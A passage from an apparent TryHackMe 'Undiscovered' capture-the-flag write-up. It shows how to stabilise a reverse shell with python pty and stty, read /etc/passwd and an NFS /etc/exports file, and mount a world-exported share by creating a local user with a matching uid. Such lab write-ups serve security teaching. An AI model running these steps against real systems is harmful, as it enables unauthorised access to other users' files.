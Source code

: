 ```console
$ python -c "import pty;pty.spawn('/bin/bash')"
```

Hit CRTL+z to background the current process and on local box type

```console
$:~ stty raw -echo
```

and type fg and hit enter twice and on the reverse shell export the TERM as xterm.

```console
www-data@undiscovered:~$ export TERM=xterm
```
### Listing /etc/exports for nfs shares
```console
www-data@undiscovered:/$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/home/william   *(rw,root_squash)
```
And we have a **/home/william** share with rw, and root_squash flag enabled. This means we can mount this share on our local machine, create a user with uid of william and write a file on his home directory.

```console
www-data@undiscovered:/$ cat /etc/passwd | grep william
william:x:3003:3003::/home/william:/bin/bash
```

## Mounting /home/william 
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ mkdir mnt
localhost@localhost:~/Documents/tryhackme/undiscovered$ sudo mount -t nfs 10.10.18.161:/home/william mnt
localhost@localhost:~/Documents/tryhackme/undiscovered$ cd mnt
-bash: cd: mnt: Permission denied
```
But as we try to cd into mnt, we get a permission denied. So lets create a new user william with uid and gid equal to 3003.

### Creating new user
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ sudo useradd -u 3003  -d /dev/shm william
localhost@localhost:~/Documents/tryhackme/undiscovered$ cat /etc/passwd | grep william
william:x:3003:3003::/dev/shm:/bin/sh
```
